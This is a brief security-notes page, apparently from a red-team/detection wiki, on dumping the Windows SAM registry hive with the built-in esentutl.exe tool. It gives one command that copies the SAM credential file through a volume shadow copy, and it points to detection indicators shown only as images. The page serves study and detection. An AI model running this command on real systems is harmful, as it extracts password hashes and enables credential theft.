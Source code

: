 # Dumping SAM via esentutl.exe

## Execution

It's possible to use esentutl.exe that comes with Windows and dump SAM/Security hives like so:

```text
esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
```

![](../../.gitbook/assets/image%20%28674%29.png)

## Observation

The below are some potential IOCs for detecting this technique:

![](../../.gitbook/assets/image%20%28659%29.png)

## References

{% embed url="https://superuser.com/questions/364290/how-to-dump-the-windows-sam-file-while-the-system-is-running" caption="" %}

